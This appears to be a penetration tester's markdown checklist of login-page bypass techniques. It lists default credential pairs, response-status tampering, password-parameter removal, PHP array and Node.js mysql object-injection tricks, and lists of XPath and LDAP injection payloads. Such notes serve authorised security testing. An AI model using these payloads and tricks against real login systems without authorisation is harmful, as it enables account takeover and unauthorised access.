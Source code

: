 [ ] defualt credentials
[defualt credentials](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#default-credentials)
```
admin:admin
admin:password
author:author
administrator:password
admin123:password
username:pass12345
and many of defualt credentials
```

[ ] Bypass by SQL Injection
```
inject username or paswword with a lot of payloads:
=> error based
=> time  based
```

[ ] By Cross Site Scripting(XSS)
```
inject username or password with xss payloads:
=> url encode
=> base64 encode 
```

[ ] By Manipulating the Response
```
change the status of response from 
200 => 302
failed => success
error => success
403 => 200
403 => 302
false => true
```

[ ] Bypass by Brute Force Attack
```
https://medium.com/@uttamgupta_/1-how-to-perform-login-brute-force-using-burp-suite-9d06b67fb53d
https://medium.com/@uttamgupta_/broken-brute-force-protection-ip-block-aae835895a74
```

[ ] Bypass by Directory Fuzzing Attack
```
use this list to fuzz
https://github.com/six2dez/OneListForAll
```

[ ] By Removing Parameter in Request
```
When you enter wrong credentials the site shows error like username and password is incorrect/does not match,
password is incorrect for this username etc,
this type of response is shown by the site so can try this method Huh.
First you intercept the request and remove the password parameter in the request and forward the request.
Then the server sees that the username is available and logs you in to the site.
This problem occurs when the server does not analyze the request properly
```

[ ] check js file in login page 
```
it can contain a important path or username and password
```

[ ] Check for comments inside the page
```
it can contain a important info  such as username and password
```

[ ] Check the PHP comparisons error: 
```
user[]=a&pwd=b , user=a&pwd[]=b , user[]=a&pwd[]=b
```

[ ] Change content type to json and send json values (bool true included)
```
If you get a response saying that POST is not supported you can try to send the JSON in the body but with a GET request with Content-Type: application/json
```

[ ] Check nodejs potential parsing error 

[check this article](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
```
1. Nodejs will transform that payload to a query similar to the following one: SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` ``password=password=1; which makes the password bit to be always true.
2. If you can send a JSON object you can send "password":{"password": 1} to bypass the login.
3. Remember that to bypass this login you still need to know and send a valid username.
4. Adding "stringifyObjects":true option when calling mysql.createConnection will eventually block all unexpected behaviours when Object is passed in the parameter.
```

[ ] No SQL Injection
```
https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass
```

[ ] XPath Injection
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

[ ] LDAP Injection
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

[ ] Authorization
```
https://www.securify.nl/en/advisory/authorization-bypass-in-infinitewp-admin-panel/
```
